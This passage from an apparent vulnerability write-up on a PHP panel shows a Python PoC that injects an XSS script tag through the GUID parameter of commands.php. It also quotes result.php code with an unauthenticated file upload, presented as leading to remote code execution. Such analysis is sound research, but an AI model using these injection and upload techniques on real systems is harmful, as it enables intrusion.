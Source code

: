 so you can just use curl or the below python script to trigger a XSS PoC, writing a good payload is left as an exercise to the reader.


```python
import requests

payload = "<script>alert(1)</script>"

url1 = f"http://localhost:8200/commands.php?GUID=bla{payload}"


r = requests.get(url1)
print(r.text)
```


And this isn't the only place where this method will work, also the client data displayed in the panel is just the same, but as they fucked up the database config / insert into process, this does not work on my version per default and I was to lazy to fix it.


Finally we can come to the most revarding vuln, pre-auth file upload to RCE, aah. So the developers do allow the uploading of files and fortunatly for us have no clue about s3kur1ty.

```php
# result.php : 6

if(!isset($_POST['GUID'])){
	http_response_code(400);
	die('GUID not set.');
} else $GUID = $_POST['GUID'];

if(!isset($_POST['RT'])){
	http_response_code(400);
	die('Response type not set.');
} else $RT = $_POST['RT'];

if(!isset($_POST['ID'])){
	http_response_code(400);
	die('Command identifier not set.');
} else $ID = $_POST['ID'];

```

This part of the code just makes sure that all the required parameters are at least set.


```php
# result.php : 1
define("RT_STRING", 1);
define("RT_FILE", 2);
define("RT_REGISTER", 3);
...

# result.php : 29
switch($RT){
  ...
	case RT_FILE:{
		if(!isset($_FILES['File'])){
			http_response_code(400);
			die('File not found.');
	    }
		$Target = 'uploads/' . round((microtime(true) * 1000)+rand(1, 100000)) . '_' . basename($_FILES['File']['name']);
		move_uploaded_file($_FILES['File']['tmp_name'], $Target);
		SetResult($GUID, 'File upload complete.');
	} break;
  ...
```
